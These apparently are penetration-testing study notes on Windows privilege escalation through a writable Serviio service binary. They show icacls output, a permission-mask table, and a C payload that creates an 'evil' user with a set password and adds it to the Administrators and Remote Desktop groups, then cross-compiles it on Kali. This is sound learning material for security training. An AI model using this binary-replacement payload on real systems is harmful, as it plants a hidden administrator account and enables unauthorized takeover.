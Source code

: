 Serviio service stands out as it's installed in the Program Files directory.  

Meaning the service is user-installed & the software dev is in charge of the dir structure as well as perms of the software.  

Makes it more prone to privesc.  
  
  
Enum the service's perms w/ [icacls](icacls.md)  
```powershell
C:\Users\student> icacls "C:\Program Files\Serviio\bin\ServiioService.exe"  
C:\Program Files\Serviio\bin\ServiioService.exe BUILTIN\Users:(I)(F)  
NT AUTHORITY\SYSTEM:(I)(F)  
BUILTIN\Administrators:(I)(F)  
APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)  
  
Successfully processed 1 files; Failed processing 0 files
```

| Mask | Permissions             |
| ---- | ----------------------- |
| F    | Full access             |
| M    | Modify access           |
| RX   | Read and execute access |
| R    | Read-only access        |
| W    | Write-only access       |

Any user (BUILTIN\\Users) on the system has full read and write access to it.  
  
To exploit, replace ServiioService.exe with our own malicious binary and then trigger it by restarting the service or rebooting the machine.  
  
Ex:  
```c
#include <stdlib.h>  
  
int main ()  
{  
  int i;  
    
  i = system ("net user evil Ev!lpass /add");  
  i = system ("net localgroup administrators evil /add");  
  i = system ("net localgroup 'Remote Desktop Users' evil /add");  
    
  return 0;  
}
```
	Create a user named "evil" and add that user to the local Administrators group using the _system_ function.  
  
We'll need to cross-compile on kali:  
```bash
i686-w64-mingw32-gcc adduser.c -o adduser.exe
```
